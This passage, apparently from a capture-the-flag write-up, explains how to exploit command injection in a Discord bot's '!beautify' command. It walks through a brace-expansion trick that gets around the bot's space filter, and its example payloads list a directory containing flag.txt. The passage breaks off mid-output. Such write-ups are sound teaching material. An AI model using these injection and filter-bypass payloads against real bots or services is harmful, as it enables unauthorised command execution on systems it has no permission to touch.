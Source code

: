 What can possibly happen?

The first thing that you can guess is that discord messages are limited to `2048` characters and that there are too many hidden files that cause the message to be too long. This is not possible since we have a response, it just is empty.

We have the exact output of our bash command. So there is only one thing that may happen: the `ls` command fails. You can understand that because backticks only gives you the `stdout` output, not `stderr`. And most likely the bot ignores `stderr` completely, so we cannot see it.

But what is the cause of the command failure? `ls` did work so we do have access to the current folder with at least `r-x` permissions, and `-a` is a proper argument to `ls`. This takes a bit of guessing, but the problematic character is the space.

Another way to discover that without guessing is to send both `!beautify "a b"` and `!beautify "a   b"`. Since they give the exact same output with 1 space only, something is happening here.

Knowing what exactly is the problem is completely guessing and is not intended, but the thing is to understand that something is going on with spaces and that you may not use them.

Let's validate our theory. ``!beautify "\'`echo a`\'"`` outputs the same thing as the previous `ls`.

```bash
!beautify "\'`{echo,a}`\'"
```

```
__       __     
\ \      \ \    
 \ \   __ \ \   
  \ \ / _` \ \  
   \ \ (_| |\ \ 
    \_\__,_| \_\
```

The space **is** the problem. The reason that you cannot guess is that spaces are replaced by no-break spaces.

You can easily find this payload on the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space) Github.

### Final difficulty

```bash
!beautify "\'`{ls,-a}`\'"
```

```
__                  __ _              _        _   
\ \                / _| |            | |      | |  
 \ \              | |_| | __ _  __ _ | |___  _| |_ 
  \ \             |  _| |/ _` |/ _` || __\ \/ / __|
   \ \ _   _ _   _| | | | (_| | (_| || |_ >  <| |_ 
    \_(_) (_|_) (_)_| |_|\__,_|\__, (_)__/_/\_\\__|
                                __/ |              
                               |___/               
 _____             _              __ _ _      
|  __ \           | |            / _(_) |     
| |  | | ___   ___| | _____ _ __| |_ _| | ___ 
| |  | |/ _ \ / __| |/ / _ \ '__|  _| | |/ _ \
| |__| | (_) | (__|   <  __/ |  | | | | |  __/
|_____/ \___/ \___|_|\_\___|_|  |_| |_|_|\___|


      _           _ _               
     | |         | | |              
  ___| |__   __ _| | |  _ __  _   _ 
 / __| '_ \ / _` | | | | '_ \| | | |
| (__| | | | (_| | | |_| |_) | |_| |
```